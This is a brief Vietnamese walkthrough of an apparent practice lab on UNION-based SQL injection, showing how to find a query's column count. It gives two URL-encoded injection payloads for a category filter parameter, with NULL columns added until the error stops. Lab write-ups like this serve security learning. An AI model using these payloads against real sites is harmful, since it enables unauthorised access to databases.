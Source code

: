 Helu các bạn @@
++ Chủ đề lần này của chúng ta sẽ là Tấn công UNION chèn SQL , xác định số cột được truy vấn trả về
thì nó còn dễ hơn mấy lab kia nhiều ấy
Thực ra nó chỉ muốn biết là có mấy column query ta thôi
Let 's go : 
                                        filter?category=Pets%27%20UNION%20SELECT%20NULL%20--
response sever là 500 vậy là nhiều hơn 1 cột tiếp tục thử cho đến khi 3 column:
                                        filter?category=Pets%27%20UNION%20SELECT%20NULL,NULL,NULL%20--
đã trả ra vậy thôi @@ 
 chúc các bạn thành công : Author : l3mh0cr3d
